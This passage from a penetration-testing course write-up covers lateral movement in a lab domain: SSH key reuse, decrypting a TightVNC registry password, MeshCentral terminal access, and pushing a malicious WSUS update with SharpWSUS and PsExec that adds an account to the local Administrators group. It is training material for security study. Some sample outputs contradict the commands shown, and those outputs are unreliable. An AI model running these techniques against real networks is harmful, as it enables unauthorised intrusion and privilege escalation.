helen_id_rsa NT AUTHORITY\SYSTEM:(F)
             BUILTIN\Administrators:(F)
             INLANEFREIGHT\Ambioris:(F)

Successfully processed 1 files; Failed processing 0 files
```

Now, if you attempt to use the SSH key file to authenticate as Helen, it won't complain, and it will allow you to authenticate:

```powershell
PS C:\Tools> ssh -i C:\helen_id_rsa -l helen@inlanefreight.local -p 22 SRV01
The authenticity of host 'srv01 (fe80::647f:620f:3a1a:e978%6)' can't be established.
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

inlanefreight\helen@SRV01 C:\Users\helen>
```

## Remote Management Tools

Remote management tools like AnyDesk, TeamViewer, and VNC are widely used by organizations to provide remote support, access, and administration of systems. These tools are favored for their ease of use, cross-platform compatibility, and robust feature sets that facilitate remote control, file transfer, and system management. While they are invaluable for legitimate administrative tasks, they can also be leveraged for lateral movement during pentesting or by malicious actors.

### Introduction to AnyDesk and TeamViewer

AnyDesk and TeamViever are widely-used remote desktop applications that enable users to access and control computers remotely. These tools are prevalent in corporate environments, where they are utilized for providing IT support, enabling remote work, and managing systems without requiring physical presece. Features such as screen sharing, file transfer, and remote printing make these applications versatile and convenient for legitimate remote administration.

Adversaries may exploit legitimate desktop support and remote access software like AnyDesk and TeamViewer to establish an interactive command and control channel to target systems within networks. These services, along with other remote monitoring and management tools such as VNC, ScreenConnect, LogMeln, and AmmyyAdmin, are often used post-compromise as alternative communication channels or to maintain persistent access. According to the MITRE ATT&CK framework, these tools can be used to establish remote desktop sessions with target systems, facilitate the transfer of tools between systems, and as components of malware to establish reverse connections or back-connect to adversary-controlled systems. Notable examples include the use of AnyDesk by the Cobalt Group for remote access and persistence, and the abuse of TeamViever by the Carbanak group for remote interactive command and control.

### VNC (_Virtual Network Computing_)

VNC is a remote access tool that enables users to control a computer over a network connection. Utilizing the Remote Frame Buffer (_RFB_) protocol, VNC transmits keyboard and mouse events from one computer to another while relaying graphical screen updates back in the other direction. This facilitates real-time interaction with remote systems.

VNC is commonly deployed in enterprise environments to provide technical support and remote work solutions. It allows administrators and technical support staff to assist users without the need to physically visit their workstations, streamlinig the resolution of emergencies or technical issues. VNC is lightweight, platform-independent, and supports a wide range of OS, making it suitable for various network configurations.

According to [MITRE ATT&CK T1021.005](https://attack.mitre.org/techniques/T1021/005/), adversaries may use VNC for lateral movement within a network. VNC allows remote desktop sharing over the network, enabling attackers to control and interact with the compromised systems as if they were physically present. By exploiting VNC, attackers can move laterally across the network, execute commands, transfer files, and escalate privileges.

To leverage VNC for lateral movement, you can use VNC clients and servers to establish remote connections and control target systems.

#### Lateral Movement from Windows using TightVNC

To perform lateral movement using TightVNC from a Windows machine, you need to identify the target system's VNC server details and use a VNC client to connect. By default VNC runs on port 5900. Use PowerShell's `Test-NetConnection` cmdlet to identify if VNC is running on SRV02:

```powershell
PS C:\Tools> Test-NetConnection -ComputerName SRV02 -Port 5900

ComputerName     : SRV02
RemoteAddress    : 172.20.0.52
RemotePort       : 5900
InterfaceAlias   : Ethernet1
SourceAddress    : 172.20.0.51
TcpTestSucceeded : True
```

To use VNC, you need credentials. Administrators often use shared passwords across multiple computers to facilitate VNC administration. If you gain administrative rights on a computer with VNC installed, you can retrieve the password from the registry keys if it is not encrypted and use it if configured on other machines.

You can use the repo [PasswordDecrypts](https://github.com/frizb/PasswordDecrypts) to search for the registry keys that common VNC software uses. In your case you will search for TightVNC registry keys and find the key `Password`. Connect to SRV02 where you have administrative rights using Helen credentials.

```powershell
PS C:\Tools> reg query HKLM\SOFTWARE\TightVNC\Server /s

HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server
    ExtraPorts    REG_SZ
    QueryTimeout    REG_DWORD    0x1e
    QueryAcceptOnTimeout    REG_DWORD    0x0
    LocalInputPriorityTimeout    REG_DWORD    0x3
    LocalInputPriority    REG_DWORD    0x0
    BlockRemoteInput    REG_DWORD    0x0
    BlockLocalInput    REG_DWORD    0x0
    IpAccessControl    REG_SZ
    RfbPort    REG_DWORD    0x170c
    HttpPort    REG_DWORD    0x16a8
    Password    REG_BINARY    816ECB5CE758EAAA
```

The password key is `816ECB5CE758EAAA`. To obtain the plaintext credentials, you can use Metasploit Framework and the ruby shell, or native Linux tools such as `xxd`, `openssl` and `hexdump`.

```bash
d41y@htb[/htb]$ echo -n 816ECB5CE758EAAA | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
00000000  56 4e 43 50 61 33 22 11                           |VNCFake1|
00000008
```

Now that you have extracted the credentials, you can attempt to use those credentials on a remote machine. Open TightVNC Viewer and set the remote host to the target machine.



If you are lucky, you might find a privileged account logged into the server:



#### Lateral Movement from Linux using TightVNC

To perform lateral movement using TightVNC from a Linux machine, you will install `xtightvncviewer`, though any other compatible software can be used:

```bash
d41y@htb[/htb]$ sudo apt-get install xtightvncviewer
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following additional packages will be installed:
  tightvncpasswd
...SNIP...
```

To connect to the VNC server, you need to specify the IP address and the password. Note that to set the password from the command line, you use the option `-autopass` and pipe the password to the `vncviewer` application:

```bash
d41y@htb[/htb]$ echo VNCFake1 | proxychains4 -q vncviewer 172.20.0.52 -autopass 
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "srv02"
...SNIP...
```

In this example, the command connects to the VNC server running on `172.20.0.52`, using the password `VNCFake1`. The connection process includes enabling the TightVNC protocol extensions and performing standard VNC authentication. Once authenticated successfully, you can interact with the desktop environment of the remote machine as if you were physically present.

In case you are using a slow connection you can also add the following command:

```bash
d41y@htb[/htb]$ echo VNCFake1 | proxychains4 -q vncviewer 172.20.0.52 -autopass -quality 0 -nojpeg -compresslevel 1 -encodings "tight hextile" -bgr233
```

Finally, you can use `F8` to interact with the remote machine, which will give you a prompt with different options.

### Software Deployment

Software deployment and remote management tools are essential for IT administrators to efficiently manage and monitor their networks. These tools streamline tasks such as software installation, patch management, configuration management, and remote control of devices. Commonly used tools include Microsoft Intune, System Center Configuration Manager (_SCCM_), PDQ Deploy, MeshCentral, ManageEngine Desktop Central, SolarWinds Orion, Kaseya VSA, Ivanti Endpoint Manager and others.

While these tools provide significant benefits for IT management, they can also be exploited for lateral movement. If you gain access to credentials for an account that manages these tools, you can leverage those privileges to install malicious software on remote machines and gain access to those systems.

##### MeshCentral

... is a powerful open-source remote management tool that allows administrators to manage and monitor devices remotely.

It provides a centralized platform for managing multiple devices over the internet or a local network. It allows IT administrators to perform various tasks such as remote desktop control, file transfer, terminal access, and monitoring of devices.

The agent-based installation method used by MeshCentral involves creating a service on the remote computer that connects to the MeshCentral server via port 443 by default. As a result, even if a device has more ports blocked, it may still maintain an open connection for remote management or software deployment tools. You can exploit this configuration to move laterally within the network, abusing the open port and agent connection to gain access to and control additional devices.

###### Enum

To identify if MeshCentral is installed, you can enumerate and search for open port 443.

```bash
d41y@htb[/htb]$ nmap -p443 10.129.229.243 -sC -sV                                            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-21 18:26 AST        
Nmap scan report for 10.129.229.243                                               
Host is up (0.13s latency).                                                       
                                                                                  
PORT    STATE SERVICE   VERSION                                                                                                                                     
443/tcp open  ssl/https                                                           
| http-robots.txt: 1 disallowed entry                                                                                                                               
|_/                                                                               
|_ssl-date: TLS randomness does not represent time
|_http-title: MeshCentral - Login
| fingerprint-strings:
...SNIP...
```

Assume you have already gained access to MeshCentral credentials. The username is `admin` and the password is `RemoteManagement01`.



There are hundreds of software that may work similarly to MeshCentral. Your task will be to read the software documentation and understand which functionalities you can abuse to perform RCE on the target for lateral movement. Once you connect to MeshCentral, you can go to "My Devices" and select the device you want to interact with, in this case SRV02.



Once you are within the device, you can select the "Terminal" tab and click "Connect" to establish a remote session with the target server.

From here, you can perform any desired action on the target server.



## Windows Services

### Windows Server Update Services (_WSUS_)

is a Microsoft service that allows administrators to distribute updates and patches for Microsoft products throughout an environment in a scalable way. This solution enables internal servers to receive updates without direct internet access. WSUS is widely used in Windows corporate networks.

#### Rights

Access to the WSUS services requires administrative privileges on the server where the WSUS service is installed, meaning you need a user who is a member of either the `Administrator` or the `WSUS Administrator Group`. To effectively use WSUS service for lateral movement, the WSUS Server must be configured on the target to accept updates.

#### Enum

Before you leverage this service for lateral movement, you must identify if the WSUS Server is present. To get this information, you can query the registry key `HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate`.

```powershell
PS C:\Tools> reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate
    WUServer    REG_SZ    http://wsus.inlanefreight.local:8530
```

The same can be achieved using [SharpWSUS](https://github.com/nettitude/SharpWSUS), which is a C# tool for lateral movement through WSUS. You can run `SharpWSUS.exe locate` to identify the WSUS server.

```powershell
PS C:\Tools> .\SharpWSUS.exe locate
 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Locate WSUS Server
WSUS Server: http://wsus.inlanefreight.local:8530

[*] Locate complete
```

To conduct a deeper enum, you need to access the WSUS server. Once you get access to the WSUS server, you can execute `SharpWSUS.exe inspect`, and it will reveal information such as the computers managed by the WSUS server, the last update, check-in time for each computer, any Downstream Servers, and the WSUS groups.

```
c:\Tools> .\SharpWSUS.exe inspect
 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Inspect WSUS Server

################# WSUS Server Enumeration via SQL ##################
ServerName, WSUSPortNumber, WSUSContentLocation
-----------------------------------------------
WSUS, 8530, C:\WSUS\WsusContent


####################### Computer Enumeration #######################
ComputerName, IPAddress, OSVersion, LastCheckInTime
---------------------------------------------------
sccm.inlanefreight.local, 172.20.0.25, 10.0.17763.2510, 6/26/2024 12:14:15 PM
dc01.inlanefreight.local, 172.20.0.10, 10.0.17763.2510,
srv01.inlanefreight.local, 172.20.0.51, 10.0.17763.2510,

####################### Downstream Server Enumeration #######################
ComputerName, OSVersion, LastCheckInTime
---------------------------------------------------

####################### Group Enumeration #######################
GroupName
---------------------------------------------------
All Computers
Downstream Servers
Unassigned Computers

[*] Inspect complete
```

> [!NOTE]
> Make sure to execute `powershell.exe` as Administrator.

#### Lateral Movement from Windows

Once you have access to an account with rights on the WSUS server, either a member of the `Administrators` or `WSUS Administrators`, your task is to create a patch that will give you command execution on the target machine.

##### SharpWSUS

###### Create a Malicious Patch

WSUS is restricted to executing only Microsoft-signed binaries. To craft genuine-looking but malicious path, you will utilize PSExec from Sysinternals, a signed Microsoft binary that allows you to execute commands.

To create a new Windows update or malicious patch, you will use `SharpWSUS.exe create` as Administrator. You must specify the binary path to execute `/payload:<Path to binary>`, define the arguments for the payload with the option `/args` and optionally set the update title `/title:<Update title>`.

To get command execution with PSExec, you will add your account to the Administrators group. To do that, you will use the following PSExec arguments. First you set `-accepteula` to avoid pop-ups, `-s` to run as system, `-d` to return immediately and the command to execute `net localgroup Administrators filiplain /add`:

```
c:\Tools> .\SharpWSUS.exe create /payload:"C:\Tools\sysinternals\PSExec64.exe" /args:"-accepteula -s -d cmd.exe /c net localgroup Administrators filiplain /add" /title:"NewAccountUpdate"

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Create Update
[*] Creating patch to use the following:
[*] Payload: PSExec.exe
[*] Payload Path: C:\Tools\sysinternals\PSExec.exe
[*] Arguments: -accepteula -s -d cmd.exe /c 'net localgroup Administrators filiplain /add'
[*] Arguments (HTML Encoded): -accepteula -s -d cmd.exe /c &amp;#39;net localgroup Administrators filiplain /add&amp;#39;

################# WSUS Server Enumeration via SQL ##################
ServerName, WSUSPortNumber, WSUSContentLocation
-----------------------------------------------
WSUS, 8530, C:\WSUS\WsusContent

ImportUpdate
Update Revision ID: 101472
PrepareXMLtoClient
InjectURL2Download
DeploymentRevision
PrepareBundle
PrepareBundle Revision ID: 101473
PrepareXMLBundletoClient
DeploymentRevision

[*] Update created - When ready to deploy use the following command:
[*] SharpWSUS.exe approve /updateid:812772ce-0d8b-414b-823b-2cbc97d76126 /computername:Target.FQDN /groupname:"Group Name"

[*] To check on the update status use the following command:
[*] SharpWSUS.exe check /updateid:812772ce-0d8b-414b-823b-2cbc97d76126 /computername:Target.FQDN

[*] To delete the update use the following command:
[*] SharpWSUS.exe delete /updateid:812772ce-0d8b-414b-823b-2cbc97d76126 /computername:Target.FQDN /groupname:"Group Name"

[*] Create complete
```

The output above gave you three commands that you can execute to complete the Windows update process, which are approve, check, and delete.

To see the results of your command in the WSUS Service, you can open `Windows Server Update Service` application to identify if your update got added into the server.



Move into the "Security Updates" and make sure that "Approval" is set to "Unapproved" and "Status" is "Any", and you will see the update you created with SharpWSUS named `NewAccountUpdate`:



###### Approve the Malicious Patch for Deployment with SharpWSUS

To approve this malicious patch, you need to specify the computers which this patch will apply to and associate those computers with a group. You can achieve all this with SharpWSUS by using the command the previous output gave you. That output has the update ID that corresponds to the update you created, it is important to make sure that you are using the right update ID. You need to use `SharpWSUS.exe approve` with the option `/updateid:<Update ID>`, set the target computer with the option `/computername:<Target Computer>`, you are going to target SRV01, and finally set the new group to be created with the option `/groupname:<Group Name>`:

```
c:\Tools> .\SharpWSUS.exe approve /updateid:812772ce-0d8b-414b-823b-2cbc97d76126 /computername:srv01.inlanefreight.local /groupname:"FastUpdates"

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Approve Update

Targeting srv02.inlanefreight.local
TargetComputer, ComputerID, TargetID
------------------------------------
srv02.inlanefreight.local, d4e385a2-01e1-444f-b856-f857b8989b43, 1
Group Exists = False
Group Created: Hacker Group
Added Computer To Group
Approved Update

[*] Approve complete
```

The tool will inform you if the group is already present before attempting to create it; if no other group exists with that name, the update will be approved and the group created. You can inspect again to confirm the WSUS groups:

```
c:\Tools> .\SharpWSUS.exe inspect

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Inspect WSUS Server

... SNIP ...

####################### Group Enumeration #######################
GroupName
---------------------------------------------------
All Computers
Downstream Servers
FastUpdates
Unassigned Computers

[*] Inspect complete
```

###### Approve the Malicious Patch for Deployment Manually

During your testing, sometimes, SharpWSUS won't work to automatically approve the update. You also encounter some errors when uploading `PSExec64.exe` once the update is approved. See how you can do this process manually in case you have an error.

Within the WSUS Service, navigate into "All Updates" and make sure that "Approval" is set to "Unapproved" and "Status" is "Any", and you will see the update you created with SharpWSUS named `NewAccountUpdate`.



Now, you need to right-click the update and click "approval" or you can go to the actions panel on the right and click "Approve...":



You need to select the group you want to apply this update to complete the approval. You will choose "All Computer" by right-clicking it, selecting "Approved for Install", and clicking "OK":



Next, you change the approval status to "Approved", make sure the "Status" is set to "Any", and confirm that everything is working.


There may be situations, commonly, when you attempt to perform this attack using only a WSUS Administrator account that is not a member of the WSUS Administrators group. When you approve the update, it will fail to download your PSExec64.exe file. As you can see in the following image:



To fix this error, you can copy the PSExec64.exe to the WSUScontent directory and rename the file as expected by the WSUS Service. To confirm what's the WSUScontent directory and the filename, you can use the Event Viewer. The WSUS Service will generate an event id 364 if the content file download failed. Use PowerShell to retrieve this event:

```powershell
PS C:\Tools> Get-WinEvent -LogName Application | Where-Object { $_.Id -eq 364 } |fl

TimeCreated  : 7/3/2024 5:19:00 AM
ProviderName : Windows Server Update Services
Id           : 364
Message      : Content file download failed.
 Reason: HTTP status 404: The requested URL does not exist on the server.

 Source File: /Content/wuagent.exe
 Destination File: C:\WSUS\WsusContent\02\0098C79E1404B4399BF0E686D88DBF052269A302.exe
```

You get the `Destination File`, now you need to copy PSExec64.exe to that location:

```powershell
PS C:\Tools> copy C:\Tools\sysinternals\PSExec64.exe C:\WSUS\WsusContent\02\0098C79E1404B4399BF0E686D88DBF052269A302.exe
```

Now, you go to the WSUS Service GUI, select the update with the error, and click "Retry Download". Once the server confirms the file exists. it will allow the download of your payload.



Ideally, if you copied PSExec64.exe into the `WsusContent` directory, it is recommended that you create another update with a different title but the same payload. This will help force the update quickly.

> [!NOTE]
> If updates approved by SharpWSUS.exe are not being installed, try creating a new update and approving it manually.

###### Wait for the Client to Download the Patch

The last thing you need to do is to wait for the target computer to install the new updates. You can verify if the installation was finalized by running `SharpWSUS.exe check`, specify the update id `/updateid:<Update ID>` and the target computer name `/computername:<Target Computer>`:

```
c:\Tools> .\SharpWSUS.exe check /updateid:812772ce-0d8b-414b-823b-2cbc97d76126 /computername:srv01.inlanefreight.local
 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
